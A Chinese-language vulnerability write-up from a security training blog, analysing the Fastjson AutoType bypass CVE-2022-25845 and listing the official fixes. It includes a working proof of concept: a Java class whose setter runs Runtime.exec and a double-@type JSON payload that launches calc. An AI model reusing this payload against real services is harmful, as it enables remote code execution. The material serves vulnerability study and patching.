





# Fastjson 代码执行 CVE-2022-25845 - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/16502308.html`](https://www.cnblogs.com/hetianlab/p/16502308.html)

## 漏洞简介

　　Fastjson 代码执行漏洞，该漏洞允许攻击者绕过 Fastjson 中的"AutoTypeCheck"机制并实现远程代码执行

　　影响版本：1.2.80 及以下版本，即<= 1.2.80

## 漏洞复现

　　我们利用 idea 创建 maven 项目 搭建漏洞环境，在 pom 文件中添加

```
<dependency>
 <groupId>com.alibaba</groupId>
 <artifactId>fastjson</artifactId>
 <version>1.2.82</version>
</dependency>
```

　　创建文件夹 `com.example.fastjson`

　　在下面添加两个 java 文件

```
package com.example.fastjson;
​
import java.io.IOException;
​
public class Poc extends Exception {
 public void setName(String str) {
 try {
 Runtime.getRuntime().exec(str);
 } catch (IOException e) {
 e.printStackTrace();
 }
 }
}
​
```

```
package com.example.fastjson;
import com.alibaba.fastjson.JSON;
​
public class PocDemo {
 public static void main(String[] args) {
 String json = "{\"@type\":\"java.lang.Exception\",\"@type\":\"com.example.fastjson.Poc\",\"name\":\"calc\"}";
 JSON.parse(json);
 }
}
​
```

　　运行 PocDemo



【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

## 漏洞分析

### AutoType

　　我们知道在 fastjson 1.2.25 后设定了 [autoType](https://github.com/alibaba/fastjson/wiki/enable_autotype) 只有打开 autoType 之后，fastjson 是基于内置黑名单来实现安全的，如此可能会造成安全风险，就是绕过[黑名单](https://github.com/LeadroyaL/fastjson-blacklist?_gl=1*1ucxjwe*_ga*MjEyMjY1NzU2My4xNjU3ODUyMDU3*_ga_SQ1NR9VTFJ*MTY1ODIxMjQxMy40LjEuMTY1ODIxMjQ2My4xMA..)

　　不开启时，是基于白名单进行防护的，这个漏洞的产生就是未开启 autoType 时产生的。

　　但是未开启 autoType 时是基于白名单，是很难实现代码执行的，所以我们就需要想办法 Bypass AutoType 默认禁用策略，可以实现调用任意类

　　开启 autoType 后，最终调用的是 `config.checkAutoType`

　　`com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int)`



　　其中声明了各种被黑名单列入的类，是通过十六进制来记录各种类，可以在 [fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist?_gl=1*frgjs5*_ga*MjEyMjY1NzU2My4xNjU3ODUyMDU3*_ga_SQ1NR9VTFJ*MTY1ODIxMjQxMy40LjEuMTY1ODIxMjQ2My4xMA..)，看到具体类的名称

### Throwable

　　我们注意到在 `com.alibaba.fastjson.parser.deserializer.ThrowableDeserializer#deserialze` 中也同样调用了 `checkAutoType`




　　同时我们可以发现在 `com.alibaba.fastjson.parser.ParserConfig#getDeserializer(java.lang.Class<?>, java.lang.reflect.Type)` 会检测目标类中是否属于`Throwable` 的扩展，之后就会调用 `ThrowableDeserializer.deserialize()`



　　所以初步得出结论，如果目标类属于 `Throwable` 的扩展类，就可以实现打开`autoType`的类似操作，去调用任何类


　　为了验证这个猜测，我们修改一下文件

```
package com.example.fastjson;
​
import java.io.IOException;
​
public class Poc extends Error {
 public void setName(String str) {
 try {
 Runtime.getRuntime().exec(str);
 } catch (IOException e) {
 e.printStackTrace();
 }
 }
}
```



　　依然可以利用成功

　　继续关注函数 `com.alibaba.fastjson.parser.ParserConfig#getDeserializer(java.lang.Class<?>, java.lang.reflect.Type)` 会调用 createException 去创建反序列化函数


　　`com.alibaba.fastjson.parser.deserializer.ThrowableDeserializer#createException`


　　最后还是在函数 `com.alibaba.fastjson.parser.ParserConfig#getDeserializer(java.lang.Class<?>, java.lang.reflect.Type)` 中实现了代码执行


　　如此整个漏洞就分析完成了

## 漏洞修复

　　官方提供了以下四种[修复方式](https://github.com/alibaba/fastjson/wiki/security_update_20220523)

　　● 升级到最新版本 1.2.83

　　● safeMode 加固

　　● 升级到 fastjson v2

　　● noneautotype 版本

## 总结反思

　　整个漏洞的分析花了很多时间，根据参考文章 [CVE-2022-25845 – Analyzing the Fastjson “Auto Type Bypass” RCE vulnerability](https://jfrog.com/blog/cve-2022-25845-analyzing-the-fastjson-auto-type-bypass-rce-vulnerability/) 来来回回加断点调试了很久。对这个漏洞做一个自己的总结。在默认未开启 AutoType 时，Fastjson 是基于白名单的获取外部类，通过 搜索`checkAutoType` 发现`ThrowableDeserializer#deserialze` 中的调用，当然也不止这一处，只是这处能进一步的利用，通过满足类属于 `Throwable` 的扩展类就可以触发，最后实现代码执行。但是这个代码在实际场景中的利用要求较为苛刻，首先满足类是 `Throwable` 的扩展类，同时其中必须有危险的 set 方法。

******　　更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)******

搜索

复制